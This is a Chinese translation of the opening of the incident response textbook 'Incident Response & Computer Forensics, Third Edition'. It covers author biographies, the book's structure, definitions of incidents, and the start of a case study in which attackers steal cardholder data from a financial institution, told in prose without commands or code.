



# 事件响应和计算机取证第三版
本地：[Incident-Response-&-Computer-Forensics](/Users/xt/Documents/security/开发dev/github_project/ISLT/Incident-Response-&-Computer-Forensics)

作者Jason T. Luttgens、Matthew Pepe

献给我的父母，在1988年我13岁时买给我第一台电脑——Tandy 1000 SX。——杰森
献给克里斯蒂娜。——马特


# 免责说明
[@x7peeps](https://github.com/x7peeps) 纯粹出于学习目的与个人兴趣翻译本书。本人承诺绝不用此译文谋取任何形式的经济利益。也坚决拒绝其他任何人以此牟利。本译文只供学习研究参考之用，不得用于商业用途。[@x7peeps](https://github.com/x7peeps) 保留对此版本译文的署名权及其它相关权利。若有人使用本译文进行侵权行为或者违反知识产权保护法的任何行为，与本译者无关。译者坚决反对此类行为。

基于开源精神，译者欢迎一切基于学习研究目的的转发，但**任何转载必须注明出处。**

# 关于作者

Jason T. Luttgens 工作于信息安全领域已经近 20 年，曾是安全咨询公司 Mandiant 的技术总监。在 Mandiant 期间，Jason 在全球范围内领导了数十项涉及工业间谍、持卡人数据盗窃和其他犯罪活动的敏感调查，这些调查涉及的计算机系统数量高达 25 万台。与 Jed Mitten 一起，他创建了日志文件分析和可视化工具 Highlighter。

在加入 Mandiant 之前，他曾在美国国家航空航天局的检察长办公室计算机犯罪处担任技术调查员。在 NASA 期间，Jason 的职责包括计算机取证、事件响应、取证解决方案的研发、取证软件和硬件测试以及培训。在此期间，他还参与了重要的国家级调查，包括 9/11 调查。

Jason 是美国空军的老兵，曾在特别调查办公室（OSI）工作了四年。他被派驻到国防部计算机取证实验室，位于马里兰州林西卡姆，他的职责包括研究和开发计算机犯罪调查技术。作为一个四人取证分析团队的团队长，他亲自进行计算机取证、事件响应并提供专家法庭证言。在被分配到计算机取证实验室之前，Jason 被驻扎在位于日本冲绳县嘉手纳空军基地的第 18 通信中队。在嘉手纳空军基地期间，他执行了计算机操作和系统分析、网络应用支持、网络管理、工程、安全和培训职能。

Jason 拥有乔治梅森大学的计算机科学学士学位。

Matthew Pepe 自 1995 年以来一直在数字取证领域工作，当时两名美国空军特别调查办公室的特工救了他，使他免于被派往五角大楼。他目前是 Mandiant 的高级技术总监和创始人。在 Mandiant，他领导了众多调查，担任 Mandiant 事件响应计划奇特而独特方面的专家，并开发了现有的取证能力。

在加入 Mandiant 之前，Matt 曾在 Foundstone、Trident Data Systems、Sytex 和美国空军特别调查办公室（AFOSI）担任技术调查员和取证分析师。在 AFOSI 的这些最初的年份中，他有机会发展分析技能，并欣赏调查假设的开发和测试过程。他还学会了喜欢主动终止差分 SCSI。

Matt 拥有乔治华盛顿大学的计算机工程学士学位。

Kevin Mandia 是 FireEye 的高级副总裁兼首席运营官。他于 2004 年创办了 Mandiant 并担任首席执行官。在 Mandiant 之前，Kevin 担任 Foundstone 的计算机取证主管。从 1993 年到 1998 年，Kevin 担任美国空军的军官，曾在五角大楼的第 7 通信群担任计算机安全官，后来又成为美国空军特别调查办公室（AFOSI）的特工。2011 年，Kevin 被评为大华盛顿地区的 Ernst & Young 创业者年度人物。他拥有拉法叶学院的计算机科学学士学位，并获得了乔治华盛顿大学的法医科学硕士学位。

## 关于贡献者

Marshall Heilman 在计算机和信息安全领域拥有超过 14 年的经验，其中有七年多的时间在 Mandiant 工作。他目前是 Mandiant 的董事总经理，负责事件响应和安全评估工作。他的专业领域包括企业级事件响应、高科技犯罪调查、渗透测试以及安全网络架构和设计。他参与了过去七年中公司遭遇的许多最具破坏性和公开的事件。他曾在美国海军陆战队担任上士，也专注于计算机和信息安全。

Ryan Kazanciyan 是 Mandiant 的技术总监，拥有 11 年的事件响应、取证分析和渗透测试经验。自 2009 年加入 Mandiant 以来，他领导了数十家财富 500 强企业的事件响应和修复工作，专注于有针对性的攻击、工业间谍和金融犯罪。他还帮助开发 Mandiant 的调查方法、取证分析技术和技术，以应对复杂环境中熟练入侵者所带来的挑战。作为 Mandiant 事件响应培训的主要讲师，Ryan 还经常为企业安全团队、联邦执法机构以及行业会议授课。在从事事件响应工作之前，Ryan 领导并执行了私人和公共部门客户的渗透测试。他的背景包括在 Windows 和 Unix 环境中的红队操作、Web 应用程序安全评估和社交工程。Ryan 拥有杜克大学的计算机科学学士学位和经济学辅修学位。

## 关于技术编辑

Curtis W. Rose 是 Curtis W. Rose & Associates LLC 的总裁和创始人，这是位于马里兰州哥伦比亚市的一家专门提供计算机取证、专家证言、诉讼支持、计算机入侵响应和培训的专业服务公司，面向商业和政府客户。Curtis 是业内公认的专家，拥有超过 20 年的调查、计算机取证和信息安全经验。

Curtis 是《Real Digital Forensics: Computer Security and Incident Response》的合著者，也是许多流行的信息安全书籍的贡献作者或技术编辑，其中包括《Handbook of Digital Forensics and Investigations》、《Malware Forensics Field Guide for Windows Systems》、《Malware Forensics Field Guide for Linux Systems》、《Malware Forensics: Investigating and Analyzing Malicious Code》、《SQL Server Forensic Analysis》、《Anti-Hacker Toolkit, First Edition》、《Network Security: The Complete Reference》和《Incident Response and Computer Forensics, Second Edition》。


1 David Drummond, A new approach to China, January 12, 2010. http://googleblog.blogspot.sg/2010/01/ new-approach-to-china.html.


# 目录
[toc]


# 致谢

这本书是我们迄今为止为了让同行的犯罪调查人员从中受益而编撰的最大努力。虽然我们很想自我鼓励，但是这是不可能的，没有许多人的牺牲和努力。在这里，我们在致谢中感谢其中的一些人：创立Mandiant并倡导大大推进事件响应领域的方法的Kevin Mandia，同时从不失去与战壕中的人接触的Steve Surdu。早期加入Mandiant并为打击网络犯罪而艰苦奋斗的人所做出的巨大个人牺牲，包括Kris Kendall、Ken Bradley、Jed Mitten、Chuck Willis、Kris Harms、Bret Padres、Ben Rubin、Nicholas Harbour、David Ross和Tony Dell。自那时以来，所有Mandiant罪案解决者都比任何人都付出了更多的时间。

我们非常感谢最初教给我们计算机取证和调查技能的人，其中包括Charles Coe、Greg Dominguez和Richard Wilkinson。

我们还要感谢为本书做出贡献的所有人，特别是我们的合著作者Marshall Heilman和Ryan Kazanciyan。此外，感谢那些编写章节的人，包括Jeff Hamm、Justin Prosco、Willi Ballenthin、Ryan Benson、Nikes Akens、Robert Honnies和Greg Dominguez。此外，没有人可以使作者保持诚实，书中没有人。我们要感谢以下人员提供真诚反馈：Barry Grundy、Danny Mares、Greg Dominguez、James Akers和John Beers。

Jamie，感谢您写序言，Jerry，感谢您建议Jamie为我们写序言。

再次感谢最好的技术编辑Curtis Rose。他的技术知识、注意细节和公正评论对改进这本书做出了重大贡献。谢谢你，Curt。

最后，我们要感谢整个麦格劳希尔教育团队，包括Brandi Shailer、Amanda Russell和Amy Jollymore，感谢他们在这个项目上的支持和耐心。

# 介绍

2013年10月，Ponemon机构发布了一项关于2013年网络犯罪成本的研究。在接受调查的组织中，解决事件的平均时间为32天，解决事件的平均成本略高于100万美元。这比前一年的平均24天和近60万美元有所增加。受影响组织的可衡量成本只是开始，因为罪犯对所窃取信息的处理影响很难量化，而且往往会延迟或永远不会发现。法律和行业规定试图通过创建遵循标准和处罚不遵守标准的方式来改善计算机安全。尽管在某些情况下这种努力可能是有用的，但它们也将计算机安全转变为一项复选框。当这种情况发生时，大多数组织将只做最少的工作来完成复选框。提高计算机安全的最佳方法是为像您这样的刑事调查人员提供最有效的工具、技术和知识。本书是我们为此而努力的一部分。在这个新版本中，我们尽力传达我们在过去十年中所学到的一切。我们希望你能发现它是一个有价值的资源。

## 谁应该阅读本书

本书讨论的主题对于任何参与事件响应(IR)过程的人都是有价值的。从CIO到IR团队负责人，再到从Web服务器收集日志的人，我们涵盖了事件响应的技术和非技术方面。如今，有效的事件响应需要不仅是IT和安全人员，还需要法律、人力资源、公共关系、市场营销和其他业务功能。本书为任何需要以下方面指导的人员提供指南：
•了解IR过程
•为成功建立和装备IR团队
•增强基础设施或组织以促进IR过程
•领导调查或纠正工作
•收集和处理证据
•分析Windows或OS X证据
•分类恶意软件
•写更好的报告

 

## 这本书是如何组织的？

我们将本书分为六个部分，从准备主题开始，以事件解决结束。在中间，我们讨论了事件概念、数据收集和分析。在整本书中，我们尽力“未雨绸缪”，提供了有关执行事件响应任务的具体信息，同时还介绍了基本概念，以便您能够在技术和事件响应环境发生变化时做出更好的决策。这些基本概念不应在很长时间内发生太大变化，我们希望这个版本能够有用多年。

### 第一部分：为不可避免的事件做好准备

在本部分中，我们的目标是为您提供高级别的事件响应观点和指南，以便建立IR团队并为事件响应做好准备。我们首先分享了两个真实事件的经验，然后讨论了事件响应管理，包括定义IR过程、调查生命周期、纠正、信息跟踪以及构建成功的IR团队所需的内容。最后，我们介绍了准备基础设施、组织和IR团队的步骤。

### 第二部分：事件检测和特征化

您在首次检测到事件时采取的行动将对调查结果产生巨大的影响。第二部分涵盖了有助于成功事件响应的调查技巧和技术。我们讨论了检查清单、案件笔记、线索开发、创建妥协指标以及确定事件范围。

### 第三部分：数据收集

您处理的每个事件都需要收集和保留信息。在本部分中，我们讨论了从运行和离线系统、网络以及企业服务中收集数据的方法。数据来源包括内存、硬盘、网络数据包捕获和日志文件。

### 第四部分：数据分析

在收集数据后，下一步是进行分析。在本部分中，我们讨论了一般的分析方法，然后深入探讨了特定的操作系统。我们涵盖了Microsoft Windows和Apple OS X。我们还包括了一章关于恶意软件分类的内容，主要集中在Windows平台上。最后，我们讨论了报告撰写，并提供了一个样本报告模板。

### 第五部分：纠正

纠正是任何事件响应的最终目标——将组织恢复到正常状态。在本部分中，我们介绍了纠正的概念，包括一个七步纠正过程。然后，我们将这些概念应用于第1章中的一个真实场景，作为纠正案例研究的一部分。

### 第六部分：附录

我们在书的每章末尾都提供了一些问题，以帮助强化我们所提出的 信息。在附录中，我们还提供了一些额外的工具和资源，包括命令行参考、Windows注册表密钥、常见的Windows事件日志ID和一些有用的Web链接。

## 资源

由于技术和网站经常发生变化，我们创建了一个在线资源，您可以使用它获取本书中包含的信息的更新或更正链接。我们的网站ir3e.com将包含更新的链接，以及其他资源，如附录B中的表格和检查清单。如果您想与我们联系，提出建议、更新信息或其他评论，请发送电子邮件至authors@ir3e.com。


# 第 1 部分：为不可避免的事件做好准备

## 第 1 章：真实世界中的事件

自本书的第二版出版以来，网络犯罪的世界已经迅速发展。攻击者的方法和工具不仅发生了变化，而且被攻陷的系统和应用程序的类型也发生了变化。除了网络犯罪的演变之外，我们用于执行事件响应的工具、方法和学科也发生了变化。然而，一些组织对网络犯罪采取了一种懒散、甚至鲁莽的立场。有些人选择忽视这些问题，接受风险或将网络犯罪归为业务成本。其他人则选择花费大量的钱在他们认为会解决问题的解决方案上，对细节关注甚少。最后，有些人指责政府没有保护他们。但是，正如已故的科学传播者卡尔·萨根所说：“......我们越可能认为解决方案来自外部，我们就越不可能自己解决问题。” 本书是我们尝试帮助您成为解决方案的一部分。

为了使本书有用，您需要了解什么构成事件，什么是事件响应，我们现在身处何处以及为什么您应该关注。在本章中，我们讨论这些主题，接着是两个案例研究，帮助将这些问题与真实世界的事件联系起来。

### 什么构成事件？

国家标准与技术研究院（NIST）计算机安全资源中心（CSRC）在《计算机安全事故处理指南》（Special Publication 800-61）中定义了事件和事故。一个事件被简单地描述为“系统或网络中的任何可观察发生”，而事故被定义为“违反或威胁违反计算机安全政策、可接受使用政策或标准安全实践”。

> GO GET IT ON THE WEB
csrc.nist.gov/publications/nistpubs/800-61rev2/SP800-61rev2.pdf


大量的政府机构、合作伙伴组织、承包商和支持企业都有IT安全部门，他们依靠NIST指南制定内部政策。虽然有必要注意这些定义的存在，但无论它们是否适用于您的组织，对于我们的目的来说，它们都没有描述潜在事件的各种技术方面。

在本书的第二版中，我们将计算机安全事故定义为“涉及计算机系统或计算机网络的任何非法、未经授权或不可接受的行为”。然后，我们提供了一些示例，例如窃取商业机密、电子邮件垃圾邮件、未经授权或非法侵入计算机系统以及侵吞公款。这仍然是一个很好的定义。但是，行业已经发生了变化，"事故"的定义也需要随之变化。我们希望将这个定义扩展到“涉及计算机系统、手机、平板电脑和任何其他具有操作系统或在计算机网络上运行的电子设备的任何非法、未经授权或不可接受的行为。”由于我们的世界的互联互通性质，这个扩展的定义是必要的。汽车、电视、Xbox，甚至冰箱和烤面包机现在都有连接到互联网的能力。这意味着这些设备现在都是网络犯罪分子的潜在目标。

重要的是要理解不同的组织可能会有自己的“事件”定义。不同级别的事件会有不同的响应，取决于级别。定义事件和预期响应是成熟安全组织的一部分。作为定义的一部分，我们还建议您查阅定义计算机犯罪的当地法律。在美国，美国法典第18章第1030节定义了联邦计算机犯罪。另一个好的参考资料是美国司法部的手册，标题为“起诉计算机犯罪”。

> 在网络上获取：
www.law.cornell.edu/uscode/text/18/1030
www.justice.gov/criminal/cybercrime/docs/ccmanual.pdf


### Incident Response 是什么？

Incident Response 是一种协调和有结构的方法，从事件检测到解决。 Incident Response 可能包括以下活动：

- 确认是否发生了事件
- 提供快速检测和控制
- 确定和记录事件的范围
- 防止不协调、非协同的响应
- 确定和促进事实和实际信息
- 最小化对业务和网络运营的干扰
- 将对受影响的组织的损害降到最低
- 恢复正常运营
- 管理事件的公众印象
- 允许对肇事者采取刑事或民事诉讼
- 教育高级管理人员
- 加强受影响实体在未来发生的事件中的安全姿态

事件响应的活动和团队成员将根据事件响应的目标而不同。事件响应的目标可能因事件的严重性、受害者的需求、受害者的事件响应方法、事件的时间、攻击组的意图（如果已知）、所影响的行业或客户以及高管支持事件响应而有所不同。一般来说，事件响应包括一个确定发生了什么并进行损害评估的调查团队、一个将攻击者从环境中移除并增强受害者的安全姿态的治理团队以及某种形式的公共关系（针对高级管理人员、内部员工、业务伙伴或公众）。

### 现在的情况

计算机入侵比以往任何时候都要复杂。正如本章后面提供的两个案例研究所示，企业环境的妥协不再仅限于少量系统。计算机安全事件现在可能涉及到分布在世界各地的数百个被攻击系统，其中一些可能与被攻击机构无关，例如攻击者经常通过这些跳跃点连接以掩盖其实际位置。精明的攻击者不仅利用网络配置的错误在受害公司中造成混乱；他们还获取网络设备的访问权限并修改访问控制列表（ACL），以便为自己提供对受限区域的访问权限。精明的攻击者使用旨在破坏标准安全防御的恶意软件。恶意代码不能再被视为特定于操作系统；相反，编写在统一语言（例如Java）中的恶意代码可以在部署适当的特定于操作系统的恶意软件之前识别底层操作系统。恶意软件作者花费更多的时间研究反取证技术，特别是在执行仅在内存中和虚拟环境检测时，来阻挠取证和恶意软件分析技术。最后，精明的攻击者了解我们用来调查其恶意活动的许多技术，因此他们转变策略，以融入合法的系统和网络活动。这使我们的工作更加困难，也增加了执行全面事件响应的成本和时间。

用于执行事件响应的工具、方法和学科已经发生了变化，就像正在调查的事件类型一样发生了变化。事件响应团队现在必须比以往更快地完成其活动，并跨更多种类和数量的系统进行操作，因此在调查工具中，可扩展性、自动化和OS支持的多样性变得越来越重要。调查行业正在朝向允许调查人员“描述”他们正在寻找的恶意活动类型，并在环境中的所有系统上搜索该活动的工具，而不是一次仅在一个系统上搜索。这些相同的工具实现了自动化，例如对内存中加载的文件进行哈希、验证数字证书以及收集有关恶意软件使用的许多常见持久性机制的数据等其他有用的自动化。现代计算环境打破了地理障碍，这意味着调查工具必须能够执行其分析，而不考虑地理位置。这也意味着大部分调查活动必须能够在远程执行，并且必须能够处理缓慢和不可靠的网络连接。最后，调查工具需要允许自动化。现代计算环境打破了地理障碍，这意味着调查工具必须能够执行其分析，而不考虑地理位置。这也意味着大部分调查活动必须能够在远程执行，并且必须能够处理缓慢和不可靠的网络连接。最后，调查工具需要允许分析人员进行快速而深入的远程检查。我们通常将这种类型的分析称为现场响应。现场响应在概念上与取证分析相同，但是在现场响应中，分析是在现场系统上而不是在取证映像上执行的。

执行事件响应所使用的工具、方法和学科已经发生了变化的另一个原因是被调查的系统和应用程序的类型发生了变化。系统的存储容量比以往任何时候都要多，因此在大型事件中捕获可疑被攻击系统的位到位取证映像是费时且困难的。组织记录的数据比以往任何时候都要多，事件响应人员现在需要了解如何规范化、解析和理解大量的数据。应用程序变得更加复杂，要求事件响应人员与主题专家（SME）进行交互，以确保不会忽略恶意活动。最后，事件响应不仅仅需要IT和安全社区；有效地处理事件需要许多商业学科，包括法律、公共关系、财务、市场营销和人力资源。

实际上，由于法律和公共关系（PR）因素进入事件响应方程式，我们在我们的领域中看到了另一个不断增长的挑战。许多组织发现自己紧密地绑定在“机密性、完整性和可用性”（CIA）的概念上，希望保持其服务的运行和可访问性，并最小化进一步妥协的风险。随着法律和公共关系部门努力将法律责任和“品牌”损害最小化，我们看到越来越多的倾向于快速断开被怀疑受到攻击或感染的计算机与网络的连接，并快速重建或擦除它们。尽管这样的行动是可以理解的，并且有时是必要的，但这成为了响应者的教育问题。在维护CIA的最佳行动方案是什么，同时保留可能是识别罪犯甚至其他受害者的唯一途径的证据和线索？这就是及时响应和有效、高效的工具对于保存易失性数据至关重要的地方。

- 贴士
  
    本书中我们所谈论的许多概念可能与传统方法相矛盾。但请考虑，一些科学和技术的最新进展与传统智慧相违背。例如，最近在心脏病发作后冷却一个人的身体的做法。奇怪的是，希波克拉底在2000多年前就发现了这种技术。尽管这听起来不可靠和危险，但科学和现实结果表明，这种方法比传统方法更有效地挽救生命。同样，本书中我们讨论的方法起初可能听起来不明智，但我们的经验表明它们是有效的。
    
    <aside>
    👉 许多组织发现自己紧密地绑定在“机密性、完整性和可用性”（CIA）的概念上，希望保持其服务的运行和可访问性，并最小化进一步妥协的风险。随着法律和公共关系部门努力将法律责任和“品牌”损害最小化，我们看到越来越多的倾向于快速断开被怀疑受到攻击或感染的计算机与网络的连接，并快速重建或擦除它们。尽管这样的行动是可以理解的，并且有时是必要的，但这成为了响应者的教育问题。
    
    </aside>
    
    ### 事件响应和计算机取证
    
    为什么你应该关注事件响应？
    
    我们几乎每天都会接到来自受到网络安全漏洞侵害的公司的电话。这些网络入侵影响几乎所有行业，包括律师事务所、金融服务、蓝筹股制造商、零售商、国防工业基地、比萨饼店、电信、医疗保健、空间和卫星成像、密码学和通信、政府、采矿、软件等。我们目睹了每个行业所面临的独特威胁，并看到这些攻击在范围上扩大，影响私营部门、公共部门、企业公司以及在自己家中被攻击的个人公民。毫无疑问，我们正处于历史上最大的非法知识产权转移中，而网络间谍活动也已经到来。
    
    罪犯在窃取身份、窃取卡持人数据或账户数据的过程中，往往不会承担风险或遭到惩罚。现代意识形态和武装冲突都有在网络领域进行对抗交换的组成部分。这种不断增长的非法或未经授权的入侵活动需要不断警惕，并持续应用我们在本书中介绍的技能。请记住，安全事件可能是不可避免的，但您可以应用我们所学的教训来最小化影响和后果。安全事件响应是政府机构和私人公司需要开展的工作，既具有迷人性，也充满挑战性。实际上，安全漏洞是如此普遍，以至于经验丰富且能力出众的事件响应人员备受追捧，事件响应职业道路也已经成熟。
    
    这一切可能听起来有点令人不知所措，但是我们希望您对本书的其余内容感兴趣并兴奋！本书的目的是为事件响应人员提供由作者在过去十年中费尽心思开发和改进的工具和技术，这些技术已被应用于数百个大规模、国际、复杂和公共事件的响应中。
    
    <aside>
    👉 说明：本段为译者所加。
    
    </aside>
    
    #### 案例研究
    
    在本章中，我们向您介绍了两个案例研究，概述了我们调查的案件类型。第一个案例研究是关于一家大型金融机构的持卡人数据盗窃事件。持卡人数据包括信用卡、借记卡和相关账户信息。第二个案例研究涉及一家科技公司，攻击者使用恶意软件获得初始立足点，但随后放弃它并使用公司的虚拟专用网络（VPN）来保持访问并窃取敏感数据。我们选择了这些案例研究，因为它们的妥协和响应具有高度的复杂性。我们希望您从我们的经验中学习，并希望您发现这两个案例研究有启发性。由于这些案例研究是现实世界中的事件，因此已更改事实以保护受害者的身份。
    
    #### 案例研究＃1：Show Me the Money
    
    在1月初，攻击者手动利用 WEB1 服务器上托管的一个网页中的结构化查询语言（SQL）注入漏洞。WEB1位于受害者组织四年前收购的一个小型业务部门的非军事区（DMZ）中。该业务部门享有与受害者组织环境的所有部分的完全连接性。通过利用 WEB1 上的 SQL 注入漏洞，攻击者能够在名为 DB1 的后端数据库系统上执行命令；所有命令都以 SQL Server 服务的权限执行。在这种情况下，SQL 服务正在使用本地管理员特权运行。攻击者使用 xp_cmdshell 扩展存储过程来执行任意命令并下载并执行恶意软件到 DB1 上。DMZ 防火墙中的配置错误允许攻击者从 DB1 对位于公司环境中的 intDB1 数据库服务器执行 SQL 命令。环境和活动如下所示：
    
    

    
    在进入企业环境后，攻击者花了几周的时间对环境进行广泛的侦察。起初，攻击者使用通过 SQL 注入发出的命令执行此活动。在获得对内部环境的访问权一周后，攻击者植入了一个后门。后门提供了攻击者访问企业环境的权限，而不必依赖 SQL 注入。攻击者随后从 intDB1 中提取并破解了本地管理员帐户的密码散列。这为攻击者在环境中的大多数系统中提供了本地管理员访问权限。除了侦察活动之外，攻击者还安装了键盘记录恶意软件，并从系统管理员的多个系统中获取密码散列。攻击者能够从其中一个系统中提取密码散列，该系统是域控制器，存储了该域上所有用户的密码。
    
    到2月中旬，攻击者在环境中植入了20多个后门，涵盖了三个不同的恶意软件系列。本章将主要谈到的恶意软件系列是BKDOOR系列。BKDOOR恶意软件是一个定制的恶意软件创建工具包的一部分，允许攻击者根据需要修改二进制文件，以避免被检测到。已知多个攻击者使用此恶意软件系列。此类恶意软件允许攻击者完全控制受害系统，具有文件上传和下载功能，能够将流量（例如远程桌面协议（RDP））隧道传输到环境中，并能够在后门之间代理网络流量。BKDOOR恶意软件使用RC4算法加密其命令控制（C2）数据。我们使用术语“C2数据”来描述攻击者发送给恶意软件的指令、对这些指令的响应以及所使用的相关协议。在本章后面提到的C2服务器是指通常位于受害环境外部、由攻击者控制并用于传输C2数据到和从攻击者的恶意软件的服务器。BKDOOR恶意软件通过一种称为“DLL搜索顺序劫持”的技术来保持持久性。您可以在以下链接中了解有关DLL搜索顺序劫持的更多信息：
    
    - 在网站上获取相关信息
      
        msdn.microsoft.com/en-us/library/ms682586(VS.85).aspx
        www.mandiant.com/blog/dll-search-order-hijacking-revisited
        
    
    第二家恶意软件家族称为PROXY，它代理了到指定目的地的连接。PROXY恶意软件能够将连接重定向到其配置文件中指定的目的地地址，或接受来自BKDOOR恶意软件的原始目的地地址。第三家恶意软件家族称为BKDNS，因为它通过DNS查询/响应隧道传输了所有C2流量。BKDNS恶意软件家族似乎仅用于备份访问，因为攻击者在调查期间未使用这些后门。BKDNS恶意软件非常有趣，因为攻击者在Windows和Linux系统上都植入了该恶意软件的变体。尽管两个操作系统之间的恶意软件结构略有不同，但功能基本相同。
    从一月初到三月底，攻击者多次窃取了数据。攻击者首先瞄准了用户名和密码，然后转向网络架构和其他IT相关信息。攻击者通过探索系统管理员计算机系统上的文件和文件夹来确定敏感网络文档的存储位置。例如，攻击者对标记为“IT”的共享中的目录进行了侦察。最后，攻击者针对有关金融系统及其如何处理组织中的金融数据的信息进行了攻击。攻击者通过枚举网络上可用的所有文件共享，并对最有趣的共享进行手动侦察，确定了敏感金融信息的存储位置。攻击者还建立了指向针对性金融领域用户的系统的RDP连接，并使用被盗的凭据登录各种金融应用程序。这使攻击者能够了解金融应用程序的工作方式以及如何窃取这些应用程序存储的数据。
    确定感兴趣的数据后，攻击者使用了两种不同的方法窃取数据。攻击者使用的第一种方法是建立出站FTP连接到攻击者控制的系统，并将数据上传到FTP服务器。第二种方法是使用其中一种后门将数据从环境中转移到后门的C2服务器。高级攻击者通常不使用此技术，因为当出现大量或异常数据传输时，它会增加检测的机会。在几乎所有情况下，攻击者将数据压缩为ZIP、RAR或CAB文件；这些文件类型代表了常见的压缩方法，可以将文件的大小减少50%至95%不等。
    到6月份，攻击者已经发现了跳板服务器——一个受到严格控制的系统，是唯一被允许访问敏感资源的系统管理员使用的系统——该系统用于访问处理所有敏感金融数据的受限网络段。在这种情况下，攻击者通过监视一个特定的系统管理员发起的RDP连接，并审查按键记录恶意软据。攻击者通过这种方式找到了进入受限金融环境的途径：
    
    

    
    在这种情况下，攻击者感兴趣的数据是信用卡和借记卡信息，也称为支付卡行业（PCI）数据或持卡人数据。
    信用卡/借记卡背面的磁条包含两种类型的信息：磁道1和磁道2数据。一般来说，磁道1数据包含足够的信息来创建一个克隆卡，这使得该卡可以在实体商家使用，也称为“卡现场交易”，而磁道2数据包含足够的信息，以使恶意人员在线上使用该卡，称为“卡未出现交易”。磁道2数据不包括凸起在信用卡/借记卡上的CVV/CVV2值；然而，有些商家在进行网购时不需要购物者输入CVV/CVV2值。这家金融机构在刷卡器上刷卡后将磁道2卡数据存储在其受限环境中。犯罪分子使用磁道2数据进行欺诈性的在线购买，或者将这些数据出售给黑市。今后，我们将把信用卡/借记卡磁道2数据称为“持卡人数据”。
